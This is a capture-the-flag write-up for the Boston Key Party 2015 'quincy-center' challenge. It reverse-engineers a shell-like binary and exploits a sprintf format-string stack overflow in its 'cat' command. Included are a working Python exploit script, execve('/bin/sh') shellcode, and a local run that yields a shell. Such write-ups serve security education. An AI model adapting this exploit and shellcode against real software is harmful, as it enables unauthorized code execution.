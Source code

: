 ```yaml
---
title: 'quincy-center (uspace)'
author:
  - Brian Pak (Cai)
layout: post
categories:
  - Pwn
ctf: Boston Key Party
year: 2015
---
```

This is a write-up for **quincy-center** challenge, which is the first part of 3-chained pwnable challenge from [Boston Key Party CTF](https://ctftime.org/event/163) last weekend. _You can also read from the [origial post](https://www.bpak.org/blog/2015/03/bkpctf-2015-quincy-center-uspace-write-up/)_.


The binaries were packaged into a <a href="https://www.bpak.org/blog/wp-content/uploads/2015/03/zenhv-e941cb4585deafcf5a1b86050a3ebe7a.gz" target="_blank">tar ball</a>.

> The MBTA wrote a cool system. It's pretty bad though, sometimes the commands work, sometimes they don't...
> Exploit it. (uspace flag) 54.165.91.92 8899

The goal is to get "uspace" flag by exploiting the user space process.

Looking at the output of <span class="lang:default decode:true  crayon-inline">file</span> , these are all x86_64 binaries.

{% highlight bash %}
$ file uspace
uspace: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=98a138f60a8cfd6239de3181ef118776db40c8e6, stripped
{% endhighlight %}

Opening up in IDA Pro, we see that <span class="lang:default decode:true  crayon-inline">sub_401470</span> has the process loop that prompts "bksh> " like a shell environment.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_1.png" lightbox="quincy-center" title="bksh (uspace) command line parser" %}

First, we see that there are semaphore locking/unlocking for I/O operations, which don't seem to be too important at the moment. Then, the code to parse the command follows.

The general scheme for how the system works will be explained in the next series (kspace), so we will leave out the details of how things are implemented and maintained for now. Understanding the operations (create, list, remove, etc.) abstractly is good enough for exploiting the user space :)

There are total of 6 commands it understands: **ls**, **create**, **rm**, **cat**, **sleep**, and **exit**.

  * ls &mdash; lists files on the system
  * create &mdash; creates a new file on the system
  * rm &mdash; deletes a file on the system
  * sleep &mdash; sleep&#8230;
  * exit &mdash; exits the shell

Let's look at what **create** does for us.

The function takes the first argument to the command as a file name, and reads 256 bytes from the user for the content of the file that is being created. The buffer that is being read is large enough, so there's no overflow here. Then, it "calls" into the kernel "syscall" (via shared memory) with the syscall number 96 and its two arguments (file name & contents buffer). Everything seems normal and sane, so we move on.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_2.png" lightbox="quincy-center" title="create syscall (from uspace to kspace)" %}

Looking through more functions, we find a vulnerable code in **cat**, where it uses <span class="lang:default decode:true  crayon-inline ">sprintf</span> with the file contents buffer as its format string (aka trivial buffer overflow).

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_3.png" lightbox="quincy-center" title="\"cat\" operation (open syscall followed by read syscall)" %}

**v12** is a stack buffer of size 256 bytes, and it's located **bp-0x118**. Also, we noticed that the NX was disabled on this binary, so we could easily jump to our buffer (such as one of our arguments for the command). Conveniently, the pointers to our arguments are on the stack, so we can do a simple pop/pop/ret gadget to get an arbitrary code execution!

<p class="filename">pwn_uspace.py</p>
{% highlight python linenos %}
#!/usr/bin/python
import struct

def p(v):
    return struct.pack('<Q', v)

def u(v):
    return struct.unpack('<Q', v)[0]

f = open('payload', 'wb')

pop_pop_ret = 0x40110F

f.write('create fmt\n'.ljust(0x400, '#'))

payload = '%280x' + p(pop_pop_ret)
f.write(payload.ljust(0x100, '\0'))

f.write(('cat fmt ' + open('shell.bin').read()+ '\n').ljust(0x400, '#'))
{% endhighlight %}

&nbsp;

<p class="filename">shell.asm</p>
{% highlight asm linenos %}
[BITS 64]

section .text
global _start
_start:

lea rdi, [rel binsh]
xor rsi, rsi
xor rdx, rdx
mov rax, 0x3b
syscall

binsh:
db '/bin/sh',0
{% endhighlight %}

&nbsp;

<p class="filename">Pwn it!</p>
{% highlight bash %}
$ python pwn_uspace.py
$ (cat ../uspace/payload; cat -) | sudo ./tz
bksh> bksh>
whoami
uspace
{% endhighlight %}

We have successfully got a shell as *uspace* user.
(Note that since the challenge servers are down, the exploitation is shown in a local setup.)

Once we have arbitrary code running on uspace, we can then perform syscalls that are exposed by the kernel, but not available through a user-space interface (such as syscall number 92, shown below).

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_4.png" lightbox="quincy-center" title="kspace syscall handler" %}

The analysis of kspace & tz will be continued on the next post.

Write-up by Cai (Brian Pak) [[https://www.bpak.org](http://www.bpak.org)]